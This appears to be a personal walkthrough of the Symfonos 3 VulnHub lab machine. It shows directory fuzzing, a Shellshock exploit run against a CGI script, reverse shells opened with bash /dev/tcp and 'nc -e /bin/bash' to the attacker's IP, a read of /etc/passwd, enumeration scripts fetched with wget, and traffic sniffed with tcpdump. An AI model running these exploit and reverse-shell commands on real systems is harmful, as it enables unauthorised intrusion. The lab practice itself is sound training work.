

```shell
gobuster dir --url http://$RHOST/gate/cerberus/tartarus/ --wordlist=/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -q -f --wildcard -x php,cgi,bak,txt
/hermes/              (Status: 403) [Size: 278]
/charon/              (Status: 403) [Size: 278]

```

```shell
gobuster dir --url http://$RHOST/gate/cerberus/tartarus/ --wordlist=/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -q  -x php,cgi,bak,txt
/research             (Status: 200) [Size: 6825]
/hermes               (Status: 301) [Size: 338] [--> http://192.168.56.92/gate/cerberus/tartarus/hermes/]
/charon               (Status: 301) [Size: 338] [--> http://192.168.56.92/gate/cerberus/tartarus/charon/]

```

This is without `-f`. I had to do it with every scan.

```shell
gobuster dir --url http://$RHOST/gate/cerberus/ --wordlist=./cerberus.words.txt -q -x php,cgi,bak,txt
/tartarus             (Status: 301) [Size: 331] [--> http://192.168.56.92/gate/cerberus/tartarus/]

```

```shell
gobuster dir --url http://$RHOST/gate/cerberus/tartarus --wordlist=./cerberus.words.txt -q -x php,cgi,bak,txt
/acheron              (Status: 301) [Size: 339] [--> http://192.168.56.92/gate/cerberus/tartarus/acheron/]
/charon               (Status: 301) [Size: 338] [--> http://192.168.56.92/gate/cerberus/tartarus/charon/]
/cocytus              (Status: 301) [Size: 339] [--> http://192.168.56.92/gate/cerberus/tartarus/cocytus/]
/hermes               (Status: 301) [Size: 338] [--> http://192.168.56.92/gate/cerberus/tartarus/hermes/]
/phlegethon           (Status: 301) [Size: 342] [--> http://192.168.56.92/gate/cerberus/tartarus/phlegethon/]
/titanomachy          (Status: 301) [Size: 343] [--> http://192.168.56.92/gate/cerberus/tartarus/titanomachy/]

```

I guess I need to find a way, where same word is used with and without trailing slash.

### /gate/cerberus/tartarus/research

```shell
curl -s http://$RHOST/gate/cerberus/tartarus/research
Hidden deep within the bowels of the earth and ruled by the god Hades and his wife Persephone, the Underworld was the kingdom of the dead in Greek mythology, the sunless place where the souls of those who died went after death. Watered by the streams of five rivers (Styx, Acheron, Cocytus, Phlegethon, and Lethe), the Underworld was divided into at least four regions: Tartarus (reserved for the worst transgressors), the Elysian Fields (where only the most excellent of men dwelled), the Fields of Mourning (for those who were hurt by love), and the Asphodel Meadows (for the souls of the majority of ordinary people).

The Geography of the Underworld
Much of what we know about how the Ancient Greeks and Romans imagined the Underworld we know from Homers Odyssey and Virgils Aeneid. However, even these two visions are somewhat conflicting, so, sometimes, we have to resort to assumptions to reconstruct the Greek Underworld in its entirety.

Entrances
According to Homer, the Underworld was located beyond the earth-encircling river of Ocean, at the far western end of the world. However, some other authors inform us that there were quite a few places within the known world one could use as portals to enter the kingdom of the dead:

  A cavern near the ancient town of Tenarus. Situated at the tip of the middle promontory of Peloponnese (known back then as Cape Tanaerum, and called Cape Matapan today), the cave exists to this very day; it was through this cave that Heracles dragged Cerberus out of Hades and Orpheus tried to bring Eurydice back to the world of the living.

  The bottomless Alcyonian Lake at Lerna. Guarded by the fearsome Hydra, the Alcyonian Lake was supposedly used by Dionysus to enter the Underworld and search for his mother Semele; some even say that Hades abducted Persephone in its very vicinity.

  The volcanic Lake Avernus. Located in southern Italy near the city of Naples, Avernus was sometimes used as a synonym for the Underworld in Roman times; it is through a cave found near this lake that Aeneas descends to the Underworld in Virgils Aeneid.

Rivers
By all accounts, the Underworld was a chill and shadowy place, watered by the streams of five infernal rivers:

  The Styx. Circling the Underworld seven times, Styx was the river of hatred and unbreakable oaths; the gods are often depicted as taking vows by its waters.

  The Acheron. The river of sorrow and pain, black and deep.

  The Cocytus. The river of lamentation and wailing.

  The Phlegethon. The river of fire, possibly leading to the depths of Tartarus.

  The Lethe. The river of oblivion and forgetfulness, out of which the dead souls are obliged to drink so that they can forget their earthly lives in preparation for a possible reincarnation.

Structure
Initially, it seems that the Ancient Greeks believed that all souls, regardless of how exemplary or dishonorable their earthly lives might have been, ended up in the same place after death. And for most of them, the Underworld couldnt have been a particularly pleasant place: it was rather like living through the same dismal nightmare over and over again, battling for breath in a world inhabited by shadows, barren of hope, ill-lit and desolate. And this is how sometimes the Underworld is described by ancient authors: nothing more than a joyless realm where the dead were supposed to slowly fade into nothingness or, as we learn from Platos Myth of Er, prepare themselves for a reincarnation back to earth.

However, this all changed at some stage, and according to later writers, the Underworld was divided into at least four different regions:

  Tartarus. In The Iliad Zeus claims that Tartarus is “as far beneath Hades as heaven is above earth and that it aoeis the deepest gulf beneath the earth, the gates whereof are of iron and the threshold of bronze. Originally the dungeon of the rebels against the divine order (the Cyclopes and the Hecatoncheires during the reign of Cronus, and the Titans once Zeus came to power), Tartarus eventually ended up housing the worst of perpetrators, destined here to eternally endure punishments fitting their earthly crimes. Some of Tartarus most famous inhabitants were Sisyphus, Tantalus, Ixion, and Tityos.

  The Fields of Mourning. As we read in the Aeneid, the Fields of Mourning are reserved for the souls of those whom ruthless love did waste away; here, they wander in paths unseen, or in the gloom of dark myrtle grove: not even in death have they forgot their griefs of long ago. Curiously enough, almost all of the fields inhabitants mentioned by Virgil are women: Phaedra, Procris, Pasiphae, Evadne, Laodamia, and, of course, Dido.

  The Asphodel Meadows. We dont know that much about the Asphodel Meadows it could have been a realm of utter neutrality but we do know that it is there that Odysseus meets the shade of Achilles in Homers Odyssey. Grieve not at all that thou art dead, Achilles, says Odysseus unto him, pointing out to the great hero that he is blessed to rule mightily among the dead of this region. If I could choose, replies Achilles memorably, I would rather be a paid servant in a poor man's house and be above ground than king of kings among the dead.

  The Elysian Fields. Strangely enough, other authors place Achilles in a wholly different realm of the Underworld called Elysium (or the Isles of the Blessed if the two are one and the same), where only the most exceptional mortals were privileged with a life free of toils and pains. Ruled by either Rhadamanthus or Cronus (or both), Elysium was a land of eternal sunlight and rosy meadows, inhabited by the likes of Cadmus, Peleus, and Menelaus.

The Journey of a Soul After Death
I Hermes
Upon death, a soul was led by Hermes near the entrance of the Underworld, where a ferry awaited to carry it across either the Acheron or the Styx.

II Charon
This ferry was rowed by Charon, the infernal boatman tasked with taking the souls of the dead to the Underworld proper. Only those who could pay the fare with coins (obols) placed on their eyes or under their tongue when buried, were granted passage; the rest remained trapped between two worlds. (Aeneas was only able to enter the Underworld once his guide, the Cumaean Sybil showed Charon a golden bough, Aeneas gift for Persephone.)

III Cerberus
After the boat ride, the souls entered through the gates of the Underworld; the gates were guarded by the multiheaded dog Cerberus, who allowed everyone to enter, but none to leave.

IV The Judges

The souls then appeared before a panel of three judges, Rhadamanthus, Minos, and Aeacus, who passed sentence based on the mortals deeds during their previous life. Most souls seem to have ended up in the neutral zone, the Asphodel Meadows; for better or for worse, others were singled out for special treatment.

```

```shell
curl -s http://$RHOST/gate/cerberus/tartarus/research | html2text | tr " " "\n" | egrep -v "[ -~]" | sort | uniq | sort > research.words.txt

wc research.words.txt
 435  435 2930 research.words.txt

mv research.words.txt research.txt

cat research.txt | tr '[:upper:]' '[:lower:]' > research.lower.txt

cat research.txt research.lower.txt > research.words.txt

gobuster dir --url http://$RHOST/gate/cerberus/tartarus --wordlist=./cerberus.words.txt -q -x php,cgi,bak,txt

ffuf -u http://$RHOST/cgi-bin/FUZZ -w ./research.words.txt -fc 403,404,401,400 -s
underworld


```

## /cgi-bin/underworld



Theory: cgi + apache = shellshock.

```shell
searchsploit shellshock | grep .py
Apache mod_cgi - 'Shellshock' Remote Command Injection                                      | linux/remote/34900.py
Cisco UCS Manager 2.1(1b) - Remote Command Injection (Shellshock)                           | hardware/remote/39568.py
dhclient 4.1 - Bash Environment Variable Command Injection (Shellshock)                     | linux/remote/36933.py
Postfix SMTP 4.2.x < 4.2.48 - 'Shellshock' Remote Command Injection                         | linux/remote/34896.py
RedStar 3.0 Server - 'Shellshock' 'BEAM' / 'RSSMON' Command Injection                       | linux/local/40938.py
TrendMicro InterScan Web Security Virtual Appliance - 'Shellshock' Remote Command Injection | hardware/remote/40619.py

```

```shell
searchsploit -m linux/remote/34900.py
  Exploit: Apache mod_cgi - 'Shellshock' Remote Command Injection
      URL: https://www.exploit-db.com/exploits/34900
     Path: /usr/share/exploitdb/exploits/linux/remote/34900.py
File Type: Python script, ASCII text executable

Copied to: /home/f0c1s/vuln-hubs/symfonos/3.1/wiki/34900.py
```

Add "/cgi-bin/underworld" to the list of cgis to test.


```shell
python2 34900.py payload=reverse rhost=192.168.56.92 lport=2345 lhost=192.168.56.70
[!] Started reverse shell handler
[-] Trying exploit on : /cgi-bin/underworld
[!] Successfully exploited
[!] Incoming connection from 192.168.56.92
192.168.56.92> id
uid=1001(cerberus) gid=1001(cerberus) groups=1001(cerberus),33(www-data),1003(pcap)

192.168.56.92> whoami
cerberus

192.168.56.92> date
Sat Jan  8 05:14:17 CST 2022

192.168.56.92> pwd
/usr/lib/cgi-bin

192.168.56.92> ls -la
total 12
drwxr-xr-x  2 root root 4096 Jul 20  2019 .
drwxr-xr-x 52 root root 4096 Apr  6  2020 ..
-rwxr-xr-x  1 root root   63 Jul 20  2019 underworld

192.168.56.92> cat underworld
#!/bin/bash

echo "Content-type: text/html";
echo ""

uptime


192.168.56.92>
192.168.56.92>
```

## Reverse shell

```shell
192.168.56.92>
192.168.56.92> bash -i >& /dev/tcp/192.168.56.92/443 0>&1
/bin/bash: connect: Connection refused

192.168.56.92> bash -i >& /dev/tcp/0xc0.0xa8.0x38.0x5c/443 0>&1
/bin/bash: line 8: /dev/tcp/192.168.56.92/443: Connection refused

192.168.56.92> bash -i >& /dev/tcp/0xc0a8385c/443 0>&1
/bin/bash: connect: Connection refused
/bin/bash: line 9: /dev/tcp/0xc0.0xa8.0x38.0x5c/443: Connection refused

192.168.56.92> which nc
/bin/bash: connect: Connection refused
/bin/bash: line 10: /dev/tcp/0xc0a8385c/443: Connection refused

192.168.56.92>
/bin/nc

192.168.56.92> nc -nvC 192.168.56.70 443 -e /bin/bash
(UNKNOWN) [192.168.56.70] 443 (https) open
192.168.56.92>
```

```shell
sudo nc -nlvp $LPORT -s $LHOST
Listening on 192.168.56.70 443
Connection received on 192.168.56.92 48290
whoami
cerberus
id
uid=1001(cerberus) gid=1001(cerberus) groups=1001(cerberus),33(www-data),1003(pcap)
which python
/usr/bin/python
python -c 'import pty; pty.spawn("/bin/bash")'
cerberus@symfonos3:/usr/lib/cgi-bin$
```

### /home

```shell
cerberus@symfonos3:/usr/lib$ cd /home
cd /home
cerberus@symfonos3:/home$ ls -lAhR
ls -lAhR
.:
total 8.0K
drwxr-xr-x 2 cerberus cerberus 4.0K Jul 20  2019 cerberus
drwxr-xr-x 3 hades    hades    4.0K Apr  6  2020 hades

./cerberus:
total 12K
lrwxrwxrwx 1 root     root        9 Jul 20  2019 .bash_history -> /dev/null
-rw-r--r-- 1 cerberus cerberus  220 Jul 20  2019 .bash_logout
-rw-r--r-- 1 cerberus cerberus 3.5K Jul 20  2019 .bashrc
-rw-r--r-- 1 cerberus cerberus  675 Jul 20  2019 .profile

./hades:
total 20K
lrwxrwxrwx 1 root  root     9 Jul 20  2019 .bash_history -> /dev/null
-rw-r--r-- 1 hades hades  220 Jul 19  2019 .bash_logout
-rw-r--r-- 1 hades hades 3.5K Jul 19  2019 .bashrc
drwxr-xr-x 2 hades hades 4.0K Jul 20  2019 .nano
-rw-r--r-- 1 hades hades  675 Jul 19  2019 .profile
-rw-r--r-- 1 hades hades  165 Apr  6  2020 .wget-hsts

./hades/.nano:
total 0

```

### /etc/passwd

```shell
cerberus@symfonos3:/home$ cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
_apt:x:104:65534::/nonexistent:/bin/false
Debian-exim:x:105:109::/var/spool/exim4:/bin/false
messagebus:x:106:110::/var/run/dbus:/bin/false
sshd:x:107:65534::/run/sshd:/usr/sbin/nologin
hades:x:1000:1000:,,,:/home/hades:/bin/bash
cerberus:x:1001:1001:,,,:/home/cerberus:/bin/bash
proftpd:x:108:65534::/run/proftpd:/bin/false
ftp:x:109:65534::/srv/ftp:/bin/false
```

### no space left on the device

```shell
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.56.92 - - [08/Jan/2022 11:21:03] "GET /lse.sh HTTP/1.1" 200 -
192.168.56.92 - - [08/Jan/2022 11:21:03] "GET /LinEnum.sh HTTP/1.1" 200 -
192.168.56.92 - - [08/Jan/2022 11:21:03] "GET /linpeas.sh HTTP/1.1" 200 -
----------------------------------------
Exception occurred during processing of request from ('192.168.56.92', 47516)
Traceback (most recent call last):
  File "/usr/lib/python3.9/socketserver.py", line 683, in process_request_thread
    self.finish_request(request, client_address)
  File "/usr/lib/python3.9/socketserver.py", line 360, in finish_request
    self.RequestHandlerClass(request, client_address, self)
  File "/usr/lib/python3.9/http/server.py", line 653, in __init__
    super().__init__(*args, **kwargs)
  File "/usr/lib/python3.9/socketserver.py", line 747, in __init__
    self.handle()
  File "/usr/lib/python3.9/http/server.py", line 427, in handle
    self.handle_one_request()
  File "/usr/lib/python3.9/http/server.py", line 415, in handle_one_request
    method()
  File "/usr/lib/python3.9/http/server.py", line 660, in do_GET
    self.copyfile(f, self.wfile)
  File "/usr/lib/python3.9/http/server.py", line 860, in copyfile
    shutil.copyfileobj(source, outputfile)
  File "/usr/lib/python3.9/shutil.py", line 208, in copyfileobj
    fdst_write(buf)
  File "/usr/lib/python3.9/socketserver.py", line 826, in write
    self._sock.sendall(b)
ConnectionResetError: [Errno 104] Connection reset by peer
----------------------------------------
192.168.56.92 - - [08/Jan/2022 11:22:40] "GET /lse.sh HTTP/1.1" 200 -
^C
Keyboard interrupt received, exiting.
```

```shell
cerberus@symfonos3:/home$ cd /tmp
cd /tmp
cerberus@symfonos3:/tmp$ wget -q 192.168.56.70/{lse,LinEnum,linpeas}.sh
wget -q 192.168.56.70/{lse,LinEnum,linpeas}.sh
cerberus@symfonos3:/tmp$ ls -la
ls -la
total 8
drwxrwxrwt  2 root     root     4096 Jan  8 05:21 .
drwxr-xr-x 22 root     root     4096 Jul 19  2019 ..
-rw-r--r--  1 cerberus cerberus    0 Jan  8 05:21 LinEnum.sh
-rw-r--r--  1 cerberus cerberus    0 Jan  8 05:21 linpeas.sh
-rw-r--r--  1 cerberus cerberus    0 Jan  8 05:21 lse.sh
cerberus@symfonos3:/tmp$ chmod +x *.sh
chmod +x *.sh
cerberus@symfonos3:/tmp$ ls -la
ls -la
total 8
drwxrwxrwt  2 root     root     4096 Jan  8 05:21 .
drwxr-xr-x 22 root     root     4096 Jul 19  2019 ..
-rwxr-xr-x  1 cerberus cerberus    0 Jan  8 05:21 LinEnum.sh
-rwxr-xr-x  1 cerberus cerberus    0 Jan  8 05:21 linpeas.sh
-rwxr-xr-x  1 cerberus cerberus    0 Jan  8 05:21 lse.sh
cerberus@symfonos3:/tmp$ ./lse.sh
./lse.sh
cerberus@symfonos3:/tmp$ export TERM="xterm-256colo"
export TERM="xterm-256colo"
cerberus@symfonos3:/tmp$ export TERM="xterm-256color"
export TERM="xterm-256color"
cerberus@symfonos3:/tmp$ ./lse.sh
./lse.sh
cerberus@symfonos3:/tmp$ chmod +x lse.sh
chmod +x lse.sh
cerberus@symfonos3:/tmp$ ./lse.sh
./lse.sh
cerberus@symfonos3:/tmp$

cerberus@symfonos3:/tmp$ wget -v  192.168.56.70/lse.sh
wget -v  192.168.56.70/lse.sh
--2022-01-08 05:22:38--  http://192.168.56.70/lse.sh
Connecting to 192.168.56.70:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 43570 (43K) [text/x-sh]
Saving to: 'lse.sh.1'

lse.sh.1              0%[                    ]       0  --.-KB/s    in 0s


Cannot write to 'lse.sh.1' (No space left on device).
cerberus@symfonos3:/tmp$ ls -la
ls -la
total 8
drwxrwxrwt  2 root     root     4096 Jan  8 05:22 .
drwxr-xr-x 22 root     root     4096 Jul 19  2019 ..
-rwxr-xr-x  1 cerberus cerberus    0 Jan  8 05:21 LinEnum.sh
-rwxr-xr-x  1 cerberus cerberus    0 Jan  8 05:21 linpeas.sh
-rwxr-xr-x  1 cerberus cerberus    0 Jan  8 05:21 lse.sh
-rw-r--r--  1 cerberus cerberus    0 Jan  8 05:22 lse.sh.1
cerberus@symfonos3:/tmp$
```



### pcap group???

```shell
cerberus@symfonos3:/tmp$ cat /etc/shadow
cat /etc/shadow
cat: /etc/shadow: Permission denied

cerberus@symfonos3:/tmp$ groups
groups
cerberus www-data pcap

```

### tcpdump

```shell
cerberus@symfonos3:/tmp$ which tcpdump
which tcpdump
/usr/local/bin/tcpdump
cerberus@symfonos3:/tmp$ ip a s
ip a s
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
2: enp0s17: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 08:00:27:d0:e8:29 brd ff:ff:ff:ff:ff:ff
    inet 192.168.56.92/24 brd 192.168.56.255 scope global enp0s17
       valid_lft forever preferred_lft forever
    inet6 fe80::a00:27ff:fed0:e829/64 scope link
       valid_lft forever preferred_lft forever
cerberus@symfonos3:/tmp$ netstat -antuple
netstat -antuple
bash: netstat: command not found
cerberus@symfonos3:/tmp$ ss
ss
Netid  State      Recv-Q Send-Q Local Address:Port                 Peer Address:Port
u_str  ESTAB      0      0       * 10803                 * 10804
u_str  ESTAB      0      0       * 10990                 * 10989
u_str  ESTAB      0      0      /run/systemd/journal/stdout 10854                 * 10853
u_str  ESTAB      0      0      /run/systemd/journal/stdout 11688                 * 11687
u_str  ESTAB      0      0       * 10853                 * 10854
u_str  ESTAB      0      0      /run/systemd/journal/stdout 10804                 * 10803
u_str  ESTAB      0      0       * 10516                 * 10517
u_str  ESTAB      0      0       * 10989                 * 10990
u_str  ESTAB      0      0       * 10708                 * 10709
u_str  ESTAB      0      0       * 10659                 * 10991
u_str  ESTAB      0      0      /run/systemd/journal/stdout 10517                 * 10516
u_str  ESTAB      0      0      /var/run/dbus/system_bus_socket 10991                 * 10659
u_str  ESTAB      0      0       * 11687                 * 11688
u_str  ESTAB      0      0      /run/systemd/journal/stdout 9716                  * 9706
u_str  ESTAB      0      0       * 9706                  * 9716
u_str  ESTAB      0      0       * 10943                 * 10992
u_str  ESTAB      0      0      /var/run/dbus/system_bus_socket 10992                 * 10943
u_str  ESTAB      0      0      /run/systemd/journal/stdout 10709                 * 10708
tcp    ESTAB      0      0      192.168.56.92:48290                192.168.56.70:https
cerberus@symfonos3:/tmp$ ss -ant
ss -ant
State      Recv-Q Send-Q Local Address:Port               Peer Address:Port
LISTEN     0      128          *:22                       *:*
TIME-WAIT  0      0      127.0.0.1:52420              127.0.0.1:80
ESTAB      0      91     192.168.56.92:48290              192.168.56.70:443
LISTEN     0      128         :::80                      :::*
LISTEN     0      32          :::21                      :::*
LISTEN     0      128         :::22                      :::*
cerberus@symfonos3:/tmp$
```

```shell
cerberus@symfonos3:/tmp$ ss -a
ss -a
Netid  State      Recv-Q Send-Q Local Address:Port                 Peer Address:Port
nl     UNCONN     0      0      rtnl:agetty/392             *
nl     UNCONN     0      0      rtnl:kernel                 *
nl     UNCONN     0      0      rtnl:agetty/392             *
nl     UNCONN     768    0      tcpdiag:kernel                 *
nl     UNCONN     4352   0      tcpdiag:ss/9970                *
nl     UNCONN     0      0      selinux:kernel                 *
nl     UNCONN     0      0      audit:kernel                 *
nl     UNCONN     0      0      audit:systemd/1              *
nl     UNCONN     0      0      audit:-1392454343            *
nl     UNCONN     0      0      audit:systemd/1              *
nl     UNCONN     0      0      fiblookup:kernel                 *
nl     UNCONN     0      0      connector:kernel                 *
nl     UNCONN     0      0      uevent:-1479027747            *
nl     UNCONN     0      0      uevent:systemd-logind/328     *
nl     UNCONN     0      0      uevent:-62018790              *
nl     UNCONN     0      0      uevent:-1633744527            *
nl     UNCONN     0      0      uevent:-433720934             *
nl     UNCONN     0      0      uevent:kernel                 *
nl     UNCONN     0      0      uevent:systemd/1              *
nl     UNCONN     0      0      uevent:-433720934             *
nl     UNCONN     0      0      uevent:-1633744527            *
nl     UNCONN     0      0      uevent:-1479027747            *
nl     UNCONN     0      0      uevent:systemd-logind/328     *
nl     UNCONN     0      0      uevent:-62018790              *
nl     UNCONN     0      0      uevent:systemd/1              *
nl     UNCONN     0      0      genl:kernel                 *
nl     UNCONN     0      0      scsi-trans:kernel                 *
p_raw  UNCONN     0      0       *:enp0s17                *
u_dgr  UNCONN     0      0      /run/systemd/journal/dev-log 8978                  * 0
u_seq  LISTEN     0      128    /run/udev/control 8985                  * 0
u_str  LISTEN     0      128    /var/run/dbus/system_bus_socket 10647                 * 0
u_dgr  UNCONN     0      0      /run/systemd/notify 8910                  * 0
u_str  LISTEN     0      1      /var/run/fail2ban/fail2ban.sock 11984                 * 0
u_dgr  UNCONN     0      0      /run/systemd/cgroups-agent 8912                  * 0
u_str  LISTEN     0      128    /run/systemd/private 8916                  * 0
u_str  LISTEN     0      128    /run/systemd/fsck.progress 8921                  * 0
u_dgr  UNCONN     0      0      /run/systemd/journal/syslog 8929                  * 0
u_str  LISTEN     0      128    /run/systemd/journal/stdout 8936                  * 0
u_dgr  UNCONN     0      0      /run/systemd/journal/socket 8938                  * 0
u_str  ESTAB      0      0       * 10803                 * 10804
u_str  ESTAB      0      0       * 10990                 * 10989
u_str  ESTAB      0      0      /run/systemd/journal/stdout 10854                 * 10853
u_dgr  UNCONN     0      0       * 10934                 * 8938
u_str  ESTAB      0      0      /run/systemd/journal/stdout 11688                 * 11687
u_str  ESTAB      0      0       * 10853                 * 10854
u_str  ESTAB      0      0      /run/systemd/journal/stdout 10804                 * 10803
u_str  ESTAB      0      0       * 10516                 * 10517
u_dgr  UNCONN     0      0       * 10967                 * 0
u_str  ESTAB      0      0       * 10989                 * 10990
u_dgr  UNCONN     0      0       * 9743                  * 9744
u_dgr  UNCONN     0      0       * 11245                 * 8978
u_dgr  UNCONN     0      0       * 10642                 * 10641
u_dgr  UNCONN     0      0       * 8915                  * 8914
u_str  ESTAB      0      0       * 10708                 * 10709
u_dgr  UNCONN     0      0       * 10641                 * 10642
u_str  ESTAB      0      0       * 10659                 * 10991
u_str  ESTAB      0      0      /run/systemd/journal/stdout 10517                 * 10516
u_str  ESTAB      0      0      /var/run/dbus/system_bus_socket 10991                 * 10659
u_dgr  UNCONN     0      0       * 10644                 * 10643
u_dgr  UNCONN     0      0       * 10635                 * 8938
u_str  ESTAB      0      0       * 11687                 * 11688
u_str  ESTAB      0      0      /run/systemd/journal/stdout 9716                  * 9706
u_dgr  UNCONN     0      0       * 10643                 * 10644
u_dgr  UNCONN     0      0       * 9399                  * 8938
u_str  ESTAB      0      0       * 9706                  * 9716
u_str  ESTAB      0      0       * 10943                 * 10992
u_str  ESTAB      0      0      /var/run/dbus/system_bus_socket 10992                 * 10943
u_str  ESTAB      0      0      /run/systemd/journal/stdout 10709                 * 10708
u_dgr  UNCONN     0      0       * 8914                  * 8915
u_dgr  UNCONN     0      0       * 9728                  * 8938
u_dgr  UNCONN     0      0       * 9286                  * 8910
u_dgr  UNCONN     0      0       * 9744                  * 9743
udp    UNCONN     0      0       *:bootpc                *:*
tcp    LISTEN     0      128     *:ssh                   *:*
tcp    TIME-WAIT  0      0      127.0.0.1:52422                127.0.0.1:http
tcp    TIME-WAIT  0      0      127.0.0.1:53322                127.0.0.1:ftp
tcp    ESTAB      0      2      192.168.56.92:48290                192.168.56.70:https
tcp    LISTEN     0      128    :::http                 :::*
tcp    LISTEN     0      32     :::ftp                  :::*
tcp    LISTEN     0      128    :::ssh                  :::*
```

```shell
cerberus@symfonos3:/tmp$ tcpdump -i lo
tcpdump -i lo
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on lo, link-type EN10MB (Ethernet), capture size 262144 bytes
05:28:01.085397 IP localhost.52428 > localhost.http: Flags [S], seq 3978401165, win 43690, options [mss 65495,sackOK,TS val 1505966 ecr 0,nop,wscale 7], length 0
05:28:01.085419 IP localhost.http > localhost.52428: Flags [S.], seq 1350249147, ack 3978401166, win 43690, options [mss 65495,sackOK,TS val 1505966 ecr 1505966,nop,wscale 7], length 0
05:28:01.085433 IP localhost.52428 > localhost.http: Flags [.], ack 1, win 342, options [nop,nop,TS val 1505966 ecr 1505966], length 0
05:28:01.101886 IP localhost.52428 > localhost.http: Flags [P.], seq 1:75, ack 1, win 342, options [nop,nop,TS val 1505974 ecr 1505966], length 74: HTTP: HEAD / HTTP/1.1
05:28:01.101912 IP localhost.http > localhost.52428: Flags [.], ack 75, win 342, options [nop,nop,TS val 1505974 ecr 1505974], length 0
05:28:01.102147 IP localhost.http > localhost.52428: Flags [P.], seq 1:252, ack 75, win 342, options [nop,nop,TS val 1505974 ecr 1505974], length 251: HTTP: HTTP/1.1 200 OK
05:28:01.102386 IP localhost.52428 > localhost.http: Flags [.], ack 252, win 350, options [nop,nop,TS val 1505974 ecr 1505974], length 0
05:28:01.102556 IP localhost.52428 > localhost.http: Flags [F.], seq 75, ack 252, win 350, options [nop,nop,TS val 1505974 ecr 1505974], length 0
05:28:01.102615 IP localhost.http > localhost.52428: Flags [F.], seq 252, ack 76, win 342, options [nop,nop,TS val 1505974 ecr 1505974], length 0
05:28:01.102625 IP localhost.52428 > localhost.http: Flags [.], ack 253, win 350, options [nop,nop,TS val 1505974 ecr 1505974], length 0
05:28:01.110627 IP localhost.53328 > localhost.ftp: Flags [S], seq 1558929012, win 43690, options [mss 65495,sackOK,TS val 1505974 ecr 0,nop,wscale 7], length 0
05:28:01.110635 IP localhost.ftp > localhost.53328: Flags [S.], seq 1810234565, ack 1558929013, win 43690, options [mss 65495,sackOK,TS val 1505974 ecr 1505974,nop,wscale 7], length 0
05:28:01.110642 IP localhost.53328 > localhost.ftp: Flags [.], ack 1, win 342, options [nop,nop,TS val 1505974 ecr 1505974], length 0
